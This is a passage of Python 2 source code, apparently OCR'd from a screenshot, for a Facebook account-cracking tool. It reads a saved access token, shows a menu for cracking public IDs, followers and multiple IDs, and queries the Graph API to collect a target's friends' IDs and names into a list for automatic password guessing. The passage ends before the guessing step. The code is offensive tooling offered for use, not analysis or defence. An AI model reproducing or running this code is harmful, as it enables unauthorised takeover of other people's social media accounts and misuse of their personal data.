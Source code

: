  
def crack():
    global token
    os.system('clear')
    
    try:
        token = open('Raihan_token.txt', 'r').read()
    except IOError:
        print ''
        print '\tToken not found '
        time.sleep(1)
        login()
 
    os.system('clear')
    print logo
    print '\t     CRACK WITH AUTO PASS'
    print '\x1b[1;37m======================================================='
    print '[1] CRACK PUBLIC ID'
    print '[2] CRACK FOLLOWERS'
    print '[3] CRACK MULTIPLE ID'
    print '[4] FILE CLONING'
    print '[0] BACK'
    print '\x1b[1;37m======================================================='
    crack_select()
 
 
def crack_select():
    select = raw_input('[?] Choose : ')
    id = []
    oks = []
    cps = []
    if select == '1':
        os.system('clear')
        print logo
        print '\t     AUTO PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[?] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
            print '\t     AUTO PASS CRACKING'
            print '\x1b[1;37m======================================================='
            print '[+] CLONING FROM : \x1b[1;32m' + q['name']
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()
 
        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        